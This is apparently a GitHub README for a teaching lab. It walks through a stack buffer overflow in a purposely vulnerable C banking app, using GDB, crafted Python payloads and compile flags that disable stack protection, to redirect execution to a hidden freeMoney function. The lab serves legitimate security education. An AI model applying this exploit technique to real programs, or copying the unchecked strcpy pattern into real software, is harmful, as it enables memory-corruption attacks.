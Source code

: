 
## Overview
This repository contains a simple banking application in C designed to demonstrate a buffer overflow vulnerability. The application allows users to input their name and display a fixed balance. However, due to improper handling of user input, it is possible to trigger a hidden function that grants a large sum of money.
## Challange
The objective of this challenge is to exploit the buffer overflow vulnerability in the print_balance function to call the freeMoney function, which increases the user's balance by $1,000,000.
## Overflow Walkthrough
We are going to leverage the vulnerability in the [`strcpy`](https://www.geeksforgeeks.org/strcpy-in-c/) function, which is unsafe because it does not perform bounds checking on the destination buffer. This means that if the input exceeds the size of the buffer, it can overwrite adjacent memory, leading to undefined behavior, including potential exploitation.

To demonstrate this vulnerability, we will use [GDB (GNU Debugger)](https://en.wikipedia.org/wiki/GNU_Debugger), a powerful tool that allows us to inspect and control the execution of programs. GDB will enable us to set breakpoints, observe memory, and understand how the buffer overflow occurs.

**Start GDB with the Compiled Application**  
   Begin by running the command to start debugging the application:  
   ```
   gdb unsafe_bank_app
   ```

**Set Breakpoint**  
   Set a breakpoint at line 12, just after the `strcpy` call in the `print_balance` function:  
   ```exit
   break 12
   ```  
   This breakpoint will allow us to pause execution just after the unsafe copy operation, enabling us to inspect the state of the program before the overflow occurs.

**Run the Application with Your Name**  
   Execute the application with a name argument:  
   ```
   run Skip
   ```

**Check the Stack Pointer**  
   Inspect the stack pointer with the following command:  
   ```
   x/40x $rsp
   ```  
   Here, we can observe the contents of the stack and understand how the buffer is laid out in memory.
    ![RSP 1](./images/rsp_1.png)

| Box Color            | Component                                       |Desc                 |
| ----------------- | ------------------------------------------------------------------ |--|
| White | Buffer | Where our input will be stored|
| Yellow | Padding  | Memory location we will need to fill with bytes to reach the return address.|
|  Green  |Return Adress | A pointer indicating where to continue execution after a function call. |

Our objective is to reach the return address in memory and overwrite it with the address of the `freeMoney` function.

**Test Buffer Overflow with A's**  
   Next, we will run the application with a payload of 128 A's to trigger the overflow:  
   ```
   run $(python3 -c 'print(128 * "A")')
   ```
**Check the Stack Pointer Again**  
   we will inspect the stack pointer once more:  
   ```
   x/40x $rsp
   ```
  ![RSP 2](./images/rsp_2.png)

  We can see we filled the buffer with bunch of As (0x41s in Hex)

   Let's confinute the exection by running `continue` in `gdb`:
![Seg Fault](./images/seg_fault.png)

This shows that our input has affected the stack and led to a segmentation fault due to the overflow.

Now, let's proceed to overflow the buffer up to the return address.

**Fill the Padding and Return Address**  
  Now, we will run the application using a payload that includes padding represented by Bs, followed by Cs to overwrite the return address:
   ```
   run $(python3 -c 'print(128 * "A" + 8 * "B" + 8 * "C")')
   ```

**Check the Stack Pointer Again**  
   Inspect the stack pointer:  
   ```
   x/40x $rsp
   ```  
  ![RSP 3](./images/rsp_3.png)


We can confirm that the padding has been successfully filled with Bs and the return address has been overwritten with Cs. Next, let's retrieve the memory address of the `freeMoney` function.


**Disassemble the `freeMoney` Function**  
   Check the disassembly of the `freeMoney` function:  
   ```
   disas freeMoney
   ```
  ![freeMoneyDisas](./images/freeMoneyDisas.png)

We need the address that points to the beginning of the function, as highlighted in the photo.


**Get the Address and Convert Address to Little Endian**  
    Convert the address to [little-endian format](https://en.wikipedia.org/wiki/Endianness), which stores the least significant byte first. This arrangement is essential for constructing our payload correctly, ensuring the bytes are in the order the system expects during execution.

**Run the Final Payload**  
    Execute the application with the crafted payload:  
    ```
    run $(python3 -c 'print(128 * "A" + 8 * "B" + "\x89\x51\x55\x55\x55\x55\x00\x00")')
    ```

 **Check the Stack Pointer Again**  
    Finally, inspect the stack pointer one last time. 
```
x/40x $rsp
```
Here, we will confirm the state of the buffer and verify whether we successfully over written the return address with the `freeMoney` memory address.

![rsp_4](./images/rsp_4.png)

**Continue the Execution**

Let's proceed with the execution and see the outcome.

![success](./images/success.png)

Success! We have successfully triggered the freeMoney function!

## Try It Yourself

#### Clone the project
```bash
  git clone https://github.com/xSk1p/simple-buffer-overflow-in-c.git
```

#### Go to the project directory
```bash
  cd simple-buffer-overflow-in-c
```

#### Compile
To accurately simulate a buffer overflow, disable certain security features like stack canaries and non-executable stack. Use the following compilation flags when building your program:
```bash
  gcc -g -fno-stack-protector -z execstack -o unsafe_bank_app unsafe_bank_app.c
```

#### Run the app
```bash
  ./unsafe_bank_app <name>
```


## Note

This challenge is for educational purposes. Approach this topic with an understanding of ethical hacking.

For further reading on buffer overflows and related concepts, you may find the following resource helpful:

- [Buffer Overflow Basics](https://www.owasp.org/index.php/Buffer_Overflow)
- [Buffer Overflow Exploits](https://www.cs.usfca.edu/~ejung/courses/683/lectures/buffer.pdf)

## License

Licensed under MIT, see [LICENSE](./LICENSE.md)


